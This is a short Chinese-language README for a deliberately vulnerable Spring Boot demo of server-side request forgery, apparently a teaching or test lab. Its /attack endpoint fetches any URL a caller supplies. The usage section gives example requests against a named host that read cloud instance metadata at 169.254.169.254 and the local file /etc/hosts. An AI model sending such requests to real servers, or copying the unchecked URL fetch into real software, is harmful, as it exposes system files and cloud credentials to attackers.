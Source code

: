 ## 功能说明
使用spring boot搭建的最简单的验证SSRF的程序

当访问/attack接口并传入一个url参数的时候，服务器会访问该url的资源并返回给客户端

## 启动项目

```shell
./mvnw clean package
docker image build -t test:v1 .
docker run -p 8080:8080 test:v1
```

## 使用方式

```shell
# 获取实例元数据
http://hw.liguanghui.pro:8080/attack?url=http://169.254.169.254/latest/meta-data/instance-type

# 获取本地文件内容
http://hw.liguanghui.pro:8080/attack?url=file:///etc/hosts
```